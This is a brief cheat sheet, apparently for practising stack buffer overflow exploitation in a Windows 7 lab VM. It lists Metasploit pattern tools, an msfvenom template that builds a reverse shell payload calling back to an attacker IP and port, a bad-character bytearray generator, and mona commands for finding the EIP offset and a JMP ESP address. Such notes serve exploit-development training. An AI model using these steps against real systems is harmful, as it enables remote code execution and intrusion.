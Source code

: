 # BOF

Win 7 OVA --> `https://mega.nz/file/EdFWXZCC#5P_qBh0b8FyTQGAEckbZKi1gqs31tOlKpY0B7Z1WYm0`

# Metasploit utilities

### Pattern

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb` \
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb`

### Payload

`msfvenom -p <SHELL> LHOST=<IP> LPORT=<PORT> -b "<BADCHARS>" -f python`

### Bytearray payload

`for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
`

# Mona commands

### Set working directory
`!mona config -set workingfolder c:\mona\%p`

### Get EIP offset
`!mona findmsp -distance <OFFSET>`

### Create bytearray
`!mona bytearray -b "\x00\x0a"`

### Search for badchars
`!mona compare -f C:\mona\bytearray.bin -a <ESP_ADDRESS>`

### Search for JMP ESP 
`!mona jmp -r esp -cpb "<FOUND_BADCHARS>"`
